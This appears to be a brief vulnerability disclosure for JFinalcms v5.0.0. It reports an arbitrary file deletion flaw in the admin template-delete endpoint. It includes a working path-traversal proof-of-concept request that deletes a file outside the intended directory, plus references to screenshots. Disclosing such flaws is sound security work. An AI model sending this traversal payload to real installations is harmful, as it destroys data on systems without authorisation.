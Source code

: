 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 has an arbitrary file delete vulnerability in /admin/template/delete

![1](https://github.com/bigbigbigbaby/cms/assets/41852125/c69e1ee7-1632-4a13-91e1-6dda42bafc23)


Modify the data packet and write it to the specified path

```
/admin/template/delete?fileName=../../../../../key.txt&directory=default
```

![2](https://github.com/bigbigbigbaby/cms/assets/41852125/9a6808a6-cc6b-484f-b645-293684846c45)
